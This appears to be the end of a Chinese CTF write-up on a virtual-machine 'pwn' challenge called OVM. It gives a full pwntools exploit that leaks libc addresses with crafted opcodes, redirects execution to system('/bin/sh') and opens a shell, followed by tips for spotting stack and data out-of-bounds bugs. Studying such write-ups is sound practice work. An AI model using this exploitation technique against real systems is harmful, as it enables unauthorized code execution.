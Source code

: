 ```php
# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')
filename = "./OVM"
mx = process(filename)
#mx = remote("0192d63fbe8f7e5f9ab5243c1c69490f.q619.dg06.ciihw.cn",43013)
elf = ELF(filename)
libc=elf.libc
#初始化完成---------------------------------------------------------\
def opcode(op,high,medium,low):
    content=(op<<24)+(high<<16)+(medium<<8)+(low)
    sl(str(content))
dbg()
rl("PCPC: ")
sl(str(0x1111))
rl("SP: ")
sl(str(0x10a0))
rl("CODE SIZE: ")
sl(str(14))
rl("CODE: ")
#0FB7
opcode(0x10, 0, 0, 26)
opcode(0x80, 2, 1, 0)
opcode(0x30, 4, 0, 2)
opcode(0x10, 0, 0, 25)
opcode(0x80, 2, 1, 0)
opcode(0x30, 5, 0, 2)
opcode(0x70, 4, 4, 13)
#--------------------------
opcode(0x10, 0, 0, 8)
opcode(0x80, 2, 1, 0)
#--------------------------
opcode(0x40, 4, 0, 2)
opcode(0x10, 0, 0, 7)
opcode(0x80, 2, 1, 0)
#--------------------------
opcode(0x40, 5, 0, 2)
opcode(0xff, 0, 0, 0)
rl("R4: ")
libc_addr1=int(mx.recv(8),16)
rl("R5: ")
libc_addr2=int(mx.recv(4),16)
print(hex(libc_addr1))
print(hex(libc_addr2))
libc_addr = (libc_addr2 << 32) + libc_addr1
print(hex(libc_addr))
#0F48=m
system=libc_addr-0x39e4a0
rl("HOW DO YOU FEEL AT OVM?")
s(b'/bin/sh\x00'+p64(system))
inter()
```

总结
==

像上面这种VMpwn的题目,关键功能点就是分配了栈 text data段 然后模拟pop push mov lea等功能,这种更多的是难在逆向 把功能点都一个个弄清楚之后 找到漏洞其实并不难，无非就是数据越界等常见漏洞，而我们通过两道题目发现 其实很多功能点是在我们的漏洞利用中每起到作用中，因此比赛的时候遇到类似这种题 就只需要重点去看涉及到栈 data等的指令 pop push lea类似的这种 便于快速锁定漏洞 拿到flag.
